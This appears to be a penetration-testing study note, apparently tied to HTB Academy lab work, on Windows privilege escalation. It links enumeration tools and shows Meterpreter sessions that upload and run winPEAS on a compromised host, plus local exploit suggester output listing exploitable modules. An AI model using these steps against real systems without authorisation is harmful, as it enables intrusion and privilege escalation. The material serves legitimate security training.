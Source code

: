 #winPEAS #windows-exploit-suggester #meterpreter #local_exploit_suggester 

---
# Resources

Windows PrivEsc Checklist - [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## Executables:

WinPEAS - [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Seatbelt (compile) - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

SharpUp (compile) - [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

Watson (compile) - [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

## PowerShell:

Sherlock - [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

PowerUp (PowerSploit) - [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

JAWS - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)

## Other:

Windows Exploit Suggester (local) - [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Metasploit Local Exploit Suggester (Metaploit) - [https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)


---
# Exploring Automated Tools

## ==Use WinPEAS or PowerUp **FIRST**==

-  Upload tools to rhost to find attack vectors ([[🟩HTB Academy/07_File Transfers/File Transfers|File Transfers]])
```
meterpreter> cd c:\\windows\\temp	

meterpreter > upload /root/Downloads/winPEASx64.exe
[*] Uploading  : /root/Downloads/winPEASx64.exe -> winPEASx64.exe
[*] Uploaded 8.00 MiB of 9.39 MiB (85.17%): /root/Downloads/winPEASx64.exe -> winPEASx64.exe
[*] Uploaded 9.39 MiB of 9.39 MiB (100.0%): /root/Downloads/winPEASx64.exe -> winPEASx64.exe
[*] Completed  : /root/Downloads/winPEASx64.exe -> winPEASx64.exe
``` 

## Run winPEAS
```
meterpreter > shell

c:\windows\temp>winPEASx64.exe
```

Run `post/multi/recon/local_exploit_suggester`

```
meterpreter > run post/multi/recon/local_exploit_suggester 

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 196 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 9:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                                                                                                            
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.

```

## Run `windows-exploit-suggester.py`
- First, save `systeminfo` output to .txt file
- Second, update the script and install dependencies
```
┌──(root㉿kali)-[~]
└─# ./windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2024-10-01-mssb.xls
[*] done
                                                                                                                                                            
┌──(root㉿kali)-[~]
└─# pip install xlrd --upgrade
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.                                                                                  
Collecting xlrd
  Downloading xlrd-2.0.1-py2.py3-none-any.whl (96 kB)
     |████████████████████████████████| 96 kB 4.5 MB/s 
Installing collected packages: xlrd
  Attempting uninstall: xlrd
    Found existing installation: xlrd 1.2.0
    Uninstalling xlrd-1.2.0:
      Successfully uninstalled xlrd-1.2.0
Successfully installed xlrd-2.0.1
```

- Third, run script using database (see update line), and sysinfo output (see step 1)
```
┌──(root㉿kali)-[~]
└─# ./windows-exploit-suggester.py --database 2024-10-01-mssb.xls --systeminfo Devel_systeminfo.txt
```


